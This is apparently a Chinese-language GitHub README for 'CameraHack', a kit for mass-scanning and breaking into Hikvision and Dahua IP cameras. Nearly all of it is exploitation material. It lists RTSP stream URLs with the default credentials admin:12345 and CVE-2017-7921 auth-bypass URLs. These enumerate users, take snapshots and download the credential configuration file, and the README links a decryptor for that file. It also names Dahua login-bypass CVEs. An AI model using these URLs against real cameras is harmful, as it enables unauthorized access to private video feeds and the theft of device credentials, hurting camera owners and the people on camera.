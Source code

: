 # CameraHack
批量扫描破解海康威视、大华等摄像头的常见漏洞、弱密码

## 海康威视

### RTSP 弱密码

```shell
# 主码流
rtsp://admin:12345@IP:554/h264/ch1/main/av_stream
rtsp://admin:12345@IP:554/MPEG-4/ch1/main/av_stream

# 子码流
rtsp://admin:12345@IP/mpeg4/ch1/sub/av_stream
rtsp://admin:12345@IP/h264/ch1/sub/av_stream
```

### CVE-2017-7921 漏洞

1. 检索设备列表
```
http://IP/Security/users?auth=YWRtaW46MTEK
```

2. 获取监控快照
```
http://IP/onvif-http/snapshot?auth=YWRtaW46MTEK
```

3. 下载摄像头配置账号密码文件
```
http://192.168.1.3/System/configurationFile?auth=YWRtaW46MTEK
```
- 浏览器会自动下载一个名为 `configurationFile` 的文件,需要经过解密。  
  Payload: [https://github.com/chrisjd20/hikvision_CVE-2017-7921_auth_bypass_config_decryptor](https://github.com/chrisjd20/hikvision_CVE-2017-7921_auth_bypass_config_decryptor)

- 需要一个工具 `wxMEdit` 打开解密后的配置文件,搜索关键字 `admin`.

## 大华摄像头

### 漏洞利用 `CVE-2021-33044` & `CVE-2021-33045` , 绕过 web 登录鉴权

### rtsp 弱密码
```shell
rtsp://admin:12345@IP:554/cam/realmonitor?channel=1&subtype=0
```

